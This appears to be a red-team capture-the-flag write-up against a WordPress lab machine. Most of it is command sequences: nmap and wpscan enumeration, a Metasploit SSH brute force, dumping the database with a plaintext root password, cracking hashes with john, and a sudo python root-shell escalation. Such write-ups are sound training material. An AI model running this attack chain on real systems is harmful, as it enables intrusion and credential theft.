 # Red Team: Summary of Operations
## Table of Contents
- Exposed Services
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
- Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

-----
### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - WPscan to enumerate users on Target 1
  - Brute force attacking a weak password
      
#### Method
First we enumerated the user accounts by exploiting the vulnerable WordPress site using wpscan.
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
```
$ msfconsole
```
```
> search ssh_login
```
```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
```
> exit -y
```
```
$ ssh michael@192.168.1.110
```
```
$ grep -rnw / -e “flag1” 2> /dev/null
```
-----
### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
Using the existing access we were able to locate the second flag using the following command:
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```
-----
### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1
  - 
#### Method
```
$ cat /var/www/html/wordpress/wp-config.php
```
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
```
$ grep “flag3” dump
```

Note: flag4 was found here in addition to the next step

-----
### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
>  select * from wp_users;
```
```
exit
```
```
exit
```
```
echo "steven:\$P\$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
john hash.txt
```
```
ssh steven@192.168.1.110
```
```
sudo -l
```
```
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
```
find / -iname "flag4*" 2> /dev/null
```
```
cat /root/flag4.txt
```

-----


